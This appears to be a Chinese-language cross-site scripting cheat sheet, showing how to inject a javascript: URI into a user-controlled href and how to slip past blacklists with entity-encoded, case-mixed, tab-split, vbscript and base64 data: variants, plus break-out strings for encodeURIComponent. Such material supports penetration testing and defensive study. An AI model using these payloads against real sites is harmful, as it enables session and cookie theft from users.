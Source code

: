 #### HREF 内容可控

例如：

```
<a href="Userinput">Click</a> 
```

可控的是 Userinput 那里我们需要做的只是把 javascript 代码输入就好了：

```
javascript:alert(1)// 
```

最后组合为：

```
<a href="javascript:alert(1)//">Click</a> 
```

#### 变换

使用 HTML 实体 URL 编码绕过黑名单，href 里会自动实体解码，如果都失败了，可以尝试使用 vbscript 在 IE10 以下都有效，或者使用 data 协议。

#### JavaScript 变换

使用 javascript 协议时可使用的例子：

```
javascript&#00058;alert(1)
javaSCRIPT&colon;alert(1)
JaVaScRipT:alert(1)
javas&Tab;cript:\u0061lert(1);
javascript:\u0061lert&#x28;1&#x29
javascript&#x3A;alert&lpar;document&period;cookie&rpar; 
```

#### Vbscript 变换

```
vbscript:alert(1);
vbscript&#00058;alert(1);
vbscr&Tab;ipt:alert(1)"
Data URl
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg== 
```

#### JSON

当你的输入会在 encodeURIComponent 当中显示出来的时候，很容易插入 xss 代码了

```
encodeURIComponent('userinput') 
```

userinput 处可控，测试代码：

```
-alert(1)-
-prompt(1)-
-confirm(1)- 
```
